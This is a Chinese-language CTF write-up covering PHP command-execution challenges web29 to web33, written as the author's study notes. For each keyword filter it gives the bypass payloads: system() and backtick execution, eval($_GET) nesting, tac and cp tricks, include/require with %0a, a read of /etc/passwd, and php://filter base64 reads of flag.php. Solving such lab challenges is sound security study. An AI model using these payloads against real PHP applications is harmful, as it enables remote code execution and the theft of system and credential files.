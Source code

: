 #CTF-命令执行
# web29：过滤flag\i
```
?c=phpinfo();
?c=phpinfo()?>    //如果过滤;，可以用?>闭合php代码，实现代码执行

?c=system('ls');    //查看当前文件
?c=file_get_contens("文件名”)；    //如果知道具体文件名可以使用

?c=system("cp fla?.php 1.txt");    //将fla?.php文件复制成1.txt，绕过flag关键词
之后访问1.txt文件即可
```

# web30: 过滤/flag|system|php/i
```
?c=`cp fla?.??? 1.txt`;    //`在php中和system一样，表示需要执行，用？来绕过php关键词，最后访问1.txt即可
```

# web31：过滤flag|system|php|cat | sort | shell | \. |  |\` 
```
?c=eval($_GET[1]);&1=phpinfo();    //使用eval的嵌套执行，1代表的代码被逃逸出去了那么1这里就可以随便使用被ban掉的关键词

?c=eval($_GET[1]);&1=system('cat flag.php');    //出现网页空白是因为，php文件需要查看网页源代码才能看到

?c=eval($_GET[1]);&1=system('tac flag.php');     //用tac的话就不需要查看网页源代码了
```

# web32: 过滤 flag | system | php | cat | sort | shell | . |   | \`| echo | ; 
```
方法一：使用嵌套执行即可完成逃逸

方法二：
?c=include%0a$_GET[1]?>1=/etc/passwd     //使用文件包含，进行逃逸，用?>闭合前面代码
使用插件自带的代码获取flag.php文件，令resourece=flag.php即可，拿到了base64加密后的文件，之后进行解码即可拿到flag
```
[[include用法]]
![[Pasted image 20250316172512.png|385]]

# web33:过滤 flag | system | php | cat | sort | shell | . |   | \`| echo | ; | " | 
```
前面嵌套执行均可使用
?c=require%0a$_GET[1]?>1=php://filter/convert.base64-encode/resource=flag.php
```
[[require用法]]
